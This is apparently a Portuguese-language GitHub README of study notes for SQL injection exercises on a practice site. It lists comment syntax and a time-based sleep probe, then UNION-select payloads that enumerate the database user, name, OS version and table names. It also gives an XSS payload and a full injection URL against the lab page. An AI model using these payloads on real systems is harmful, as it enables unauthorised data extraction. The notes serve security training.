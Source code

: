 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????              

```
________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |
```
```
COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------

UNION IDENTIFIQUE,<<<<<<<<<<<<

id=1' order by 1 --+anakein

?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS

?id=null' union select 66,user(),66--+anakein

?id=null' union select 66,database(),66--+anakein

?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein

?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66
```

## Basic Injection

```
http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=null' union select 66,(select table_name from information_schema.tables where table_schema=database() limit 2,1),66--+anakein
```

![list_table1](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_22-51-48.jpg)

